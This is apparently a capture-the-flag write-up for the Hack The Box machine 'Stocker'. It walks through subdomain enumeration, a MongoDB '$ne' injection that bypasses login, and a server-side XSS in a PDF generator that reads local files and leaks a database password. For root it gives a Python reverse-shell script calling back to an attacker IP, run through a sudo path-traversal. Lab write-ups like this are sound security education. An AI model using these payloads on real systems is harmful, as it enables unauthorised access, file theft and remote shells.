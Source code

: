 # Stocker

## Summary
* [General Enumeration](#general-enumeration)
* [Login Exploiting](#login-exploiting)
* [Stock Enumeration](#stock-enumeration)
* [Stock Exploitation](#stock-exploitation)
* [User](#user)
* [Root](#root)

## General Enumeration
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 19:09 CEST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.46s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.17 seconds
```
We know that there are 2 services open: SSH service on port 22 and an HTTP server on the default port 80. We can check out the webb server, so we add the IP address to the /etc/hosts file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
```
We can now access the web server on the browser using its domain or the IP address.

We notice that there is no real functionality we can exploit, so there must be something hidden.
We can guess that there might be a different part of the site on a specific subdomain: this technique is called `VHOST` (Virtual Host) which refers to the practice of running more than one website on a single machine, using subdomains like `a.example.com` and `b.example.com`.
In this case it will be a Name-based Virtual Host because the websites are hosted on the same IP, the webserver can differentiate to which website it has to send incoming requests through the HTTP `Host` header, which could be `example.com` or `a.example.com`.
So we can try to bruteforce using the top used subdomains to find an hidden website.
We can write our own tool: we just have to make a GET request to `http://(subdomain).stocker.htb`, getting the subdomain from a wordlist and checking the status code of the response.

Little tip: if you want to write your own script be aware that the website automatically redirects you to the main website giving the status code `301` when handling 404 pages, some libraries, like the nodejs `request`, will follow the redirect by default, which means that the response you receive will be the response from the redirected URL, not the original URL, giving the status code `200` even for wrong subdomains.

A good tool we can use to do that is [GoBuster](https://github.com/OJ/gobuster), which allow us, over a lot of other things, to search for working subdomains of a website, going over a wordlist, implementing the script which i mentioned above.
You can get the wordlist from the GitHub repository [SecLists](https://github.com/danielmiessler/SecLists).
Using GoBuster: `gobuster vhost -k --domain stocker.htb --append-domain -u http://10.10.11.196 -w ~/Wordlists/subdomains.txt`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.196
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/vecio/Wordlists/subdomains-11m.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/28 19:35:53 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```
We quite easly find the subdomain `dev` which redirects us to the `/login` route.
Let's add the new domain to the `/etc/hosts` file and see if we can find something to exploit in the `/login` route.
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
10.10.11.196	dev.stocker.htb
```

Testing the new page, we find only a login form, which makes a POST request to the `/login` route with the data `username=admin&password=admin` being sent. If the request fails, as in this case, we get a login error.
We can assume that there could be some sort of database used that could be vulnerable to an injection.
We can find out using [Wappalyzer](https://www.wappalyzer.com/) that it is using the JS `Express` framework, so probably it is using a `NoSQL` database and this form may be vulnerable to a NoSQL Injection.

## Login Exploiting
Searching on the internet we can find this [cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/) and start testing, using BurpSuite, some common payloads to search for unwanted behaviour.
Since we know that it is using a NoSQL database, we want to test using JSON to format the data in the POST request, so we can change the request header `Content-Type` to be `application/json` and format the payload as JSON: `{"username":"admin", "password":"admin"}`.
We can now start testing some keywords and find that we can inject MongoDB `$ne` operator, so we can craft the following payload to bypass the authentication: `{"username": {"$ne":0}, "password": {"$ne":0}}` and get redirected to `/stock`.
The `$ne` operator stads for `not equal`, so we're passing a query where we ask for a user which username's not equal to 0 and password not equal to 0, this would end up in a success login and we get redirected logged in as an authenticated user.

Let's learn why this vulnerability is possible: looking at the source code of the website (which you can get after getting access to the server) we can find the method which manages the `/login` endpoint:
```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (!username || !password) return res.redirect("/login?error=login-error");

  // TODO: Implement hashing

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
We can see that the server is getting the `username` and the `password` from the body of the request and passes those values to the mongodb `findOne()` method, without sanitizing them, which returns a document based on the queries that are passed, in this case username and password.
By injecting an object the query would become `findOne({ username: {$ne: 0}, password: ${$ne: 0} })` so it returns a user which username and password are not set to 0.

## Stock Enumeration
After we have successfully bypassed the authentication page we get redirected to the `/stock` route.
This page lets us add some items to a cart and proceed with the payment, which generates a check in pdf form.
The payment is done using a POST request to the endpoint `/api/order` with a json formatted body indluding a list of items that have been put in the cart, the response of the request includes an `orderId` which is used to create the route to view the pdf check `/api/po/64233a99566440aab8d5c56b`.
We can download the pdf file and use `Exiftool` to analyze it and find out that it is made using `Skia/PDF m108`.
Trying to edit the post request we can see that we can change the content of some fields and the result will be displayed in the pdf file, we can for example edit the `title` field of an item in the list and see that we get the edited title in the pdf result.
Doing a bit of research on the internet we find a [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) attack.
If a web page is creating a PDF using user controlled input, you can try to trick the bot that is creating the PDF into executing arbitrary JS code.
So, if the PDF creator bot finds some kind of HTML tags, it is going to interpret them, and you can abuse this behaviour to cause a Server XSS.

## Stock Exploitation
We can try to inject some payloads into the `title` field to see if the website is vulnerable.
If we inject this payload `<iframe src=file:///etc/passwd></iframe>` we can see in the returned pdf file the contents of the `/etc/passwd` file and find out the name of the user `angoose`.
Note that if the frame is too small to read the entire file, you can add some in-line css styling to make the frame bigger.

## User
If can find the path of the project by injecting the following payload `<script> document.write(window.location) </script>` which returns `file:///var/www/dev/pos/64233e83a8e0cb4c2d3cfb83.html` we can now try to find the main file in the project subdirectories.
With a few tries we can find the file `/var/www/dev/index.js` which contains the source code of the webserver.
We can also see the connection string to the MongoDB database:
```js
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
Which logs the user `dev` with the password `IHeardPassphrasesArePrettySecure`.
If we try to login the user `angoose` with SSH and use the password we found to connect to MongoDB we can get in the server.
We can then find the user flag inside the `/home/angoose/user.txt` file.

## Root
First thing we can check what the user can do by running `sudo -l` passing the password we found erlier and get the following output:
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
We can see that we can run `node` as sudo on all js scripts inside the `/usr/local/scripts/` directory.
We can exploit this to make it run our own js script, the user doesn't have permission to write into the `/usr/local/scripts/` directory, but we can exploit the path expression.
Firstly we can write a js script inside the `/home/angoose/` directory to execute a privileged python reverse shell:
```js
var exec = require('child_process').exec;
exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'", () => {console.log("Executed")});
```
we then listen to connections on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the script by running `sudo /usr/bin/node /usr/local/scripts/../../home/angoose/exploit.js`.
Once we instantiated a shell and we can get the root flag inside the `/root/root.txt` file.
